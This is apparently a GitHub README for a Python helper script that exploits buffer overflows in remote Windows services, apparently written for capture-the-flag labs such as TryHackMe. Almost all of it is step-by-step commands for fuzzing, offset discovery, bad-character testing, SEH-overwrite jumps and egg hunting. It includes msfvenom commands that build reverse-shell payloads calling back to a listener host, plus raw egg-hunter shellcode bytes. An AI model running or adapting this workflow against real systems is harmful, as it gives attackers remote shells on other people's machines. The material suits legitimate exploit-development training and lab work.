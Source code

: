 # Buffer Overflow

Scripts for exploiting buffer overflow.

* create-reverve-jmp.py - Generates a reverse jmp instruction (hex string)
* ig-buffer-overflow.py - Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary.
* socket-reuse-ws2_32.recv.py - Example code for exploiting a socket reuse with winsocket dll (WS2_32.recv)

# Scripts

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic pattern to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

checkoffset - Auxiliary mode for offset detection on pattern
```
./ig-buffer-overflow.py -m checkoffset --value=31704331 --length=5000
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Writes hex value to buffer offset and additional content before and/or after the offset content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=90909090 --after=9090
```

write - Writes badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=badchar --exclude=000a
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=badchar --exclude=000a
```

write - Sends malicious shell code (hex string file) via buffer overflow
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=shellcode --shellcode=opencalc --nops=10
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=shellcode --shellcode=opencalc
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Select script mode (test|cyclic|write|checkoffset).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --interact	: Interact with the application before sending the payload. For each message in string (separated with ';;'), sends and receives response from app.
  * Example: --interact='login;;user' --> Sends 'login', gets response, sends 'user', gets response, and finally sends the generated payload
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --before|after	: Writes additional content (hex string) before and/or after the offset content.
  * If content is 'badchar', content will be a generated badchar list. Used for bad char testing.
  * If content is 'shellcode', --shellcode parameter will be expected.
  * Other content will be considered as big endian (default) or little endian (will be reversed). Same as --hexcontent.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --shellcode	: Hex shell code file generated using msfvenom. 
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f hex EXITFUNC=thread -o opencalc
* --nopsb|nopsa	: Amount of nops to add before and/or after the additional write content (be if badchars, shellcode or simple hexstring). Default is 0.
* --value		: Offset value.
* --length	: Cyclic pattern length.


## Vanilla Buffer Overflow example

[TryHackMe - Brainstorm - Write-up](https://github.com/isabellecda/writeups/tree/main/TryHackMe/Brainstorm)

## SEH Overwrite example

1. Overwrite SEH chain
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../'
```

2. Identify SEH offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../'
```

3. Small jump (90EB0890) to tail content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301
```

4. Long jump (E9DBFCFFFF) to head content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4
```

5. Bad char testing
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=5048 --buffsize=4096 --buffhead='chk2 /.:/' --offset=3391 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4 --before=badchar --nopsb=4 --exclude=00 -v
```

6. Exploit
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=1313 -f hex EXITFUNC=thread -o reverse

./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4 --before=shellcode --shellcode=reverse --nopsb=20 -v
```

## Egg Hunting example

1. Overwrite EIP
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2048 --buffsize=1000 --buffhead='cmd1 /.:/'
```

2. Identify EIP offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2048 --buffsize=1000 --buffhead='cmd1 /.:/'
```

3. Identify command to write to memory
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.146 --rport=2050 --buffsize=1000 --buffhead='cmd2 OVNI'
```

4. Bad char testing
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=2000 --buffhead='cmd2 OVNI' --offset=1 --hexcontent=90 --after=badchar --exclude=00 --nopsa=2 -v
```

5. Write exploit with egg
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=1313 -f hex EXITFUNC=thread -o reverse

./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=2000 --buffhead='cmd2 OVNIOVNI' --offset=1 --hexcontent=90 --after=shellcode --shellcode=reverse --nopsa=20 -v
```

6. Generate egg hunter and send
```
msf-egghunter -f hex -e OVNI -v egg

./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=144 --buffhead='cmd1 /.:/' --offset=48 --hexcontent=l6250130A --after=6681caff0f42526a0258cd2e3c055a74efb84f564e4989d7af75eaaf75e7ffe7 --nopsa=2 -v
```

